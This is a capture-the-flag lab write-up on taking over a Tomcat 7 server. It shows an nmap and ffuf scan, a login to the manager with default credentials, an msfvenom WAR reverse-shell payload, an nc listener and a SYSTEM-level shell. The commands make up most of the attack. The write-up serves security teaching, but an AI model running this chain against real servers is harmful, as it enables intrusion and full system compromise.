

Target: 10.10.10.95

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.95

Nmap scan report for 10.10.10.95
Host is up (0.058s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

ffuf
```
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.10.10.95:8080/FUZZ -fc 200

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

checking /manager


trying default username:password (tomcat:s3cret)


### Findings:Looking for attack vectors

The /manager can be accessed with default credentials.
Create and upload a malicous war payload.


## Foothold:

crafting a war payload with msfvenom
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=9001 -f war > shell.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

uploading the payload



opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

getting a reverse shell
```
curl http://10.10.10.95:8080/shell/
```

```
C:\apache-tomcat-7.0.88>whoami

nt authority\system
```

```
C:\apache-tomcat-7.0.88> cd ..\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"

user.txt
<redacted>

root.txt
<redacted>
```
